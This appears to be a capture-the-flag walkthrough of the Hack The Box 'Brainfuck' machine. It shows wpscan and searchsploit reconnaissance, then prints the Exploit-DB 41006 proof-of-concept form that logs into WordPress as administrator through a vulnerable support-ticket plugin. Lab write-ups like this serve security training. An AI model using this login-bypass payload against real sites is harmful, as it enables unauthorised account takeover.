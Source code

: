 ```bash
luc@kali:~/HTB/Brainfuck$ sudo nano /etc/hosts
...
10.10.10.17     brainfuck.htb
10.10.10.17     sup3rs3cr3t.brainfuck.htb
```

### brainfuck.htb

With `brainfuck.htb` added to `/etc/hosts` we can now open `https://brainfuck.htb/` which shows a website.
This page shows the email address `orestis@brainfuck.htb`.
The subtitle is `Just another WordPress site` so we'll use `wpscan` to find vulnerabilities.

```bash
luc@kali:~/HTB/Brainfuck$ wpscan --url https://brainfuck.htb --disable-tls-checks
...
[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up
```

We need to register an account to get the full output.

```bash
luc@kali:~/HTB/Brainfuck$ wpscan --url https://brainfuck.htb --disable-tls-checks --api-token ********
...
[+] wp-support-plus-responsive-ticket-system
Version: 7.1.3 (100% confidence)
...
```

We get a lot more vulnerabilities now, but nothing that would give us access to the machine (if we filter by exploits known at time of the machine coming out). What we do see is that `WP Support Plus Responsive Ticket System 7.1.3` is used.

```bash
luc@kali:~/HTB/Brainfuck$ searchsploit wp support 7.1.3
...
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation | php/webapps/41006.txt
...
```

[41006](https://www.exploit-db.com/exploits/41006) notes that we can login as anyone without knowing the password and it also includes a proof of concept

```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```
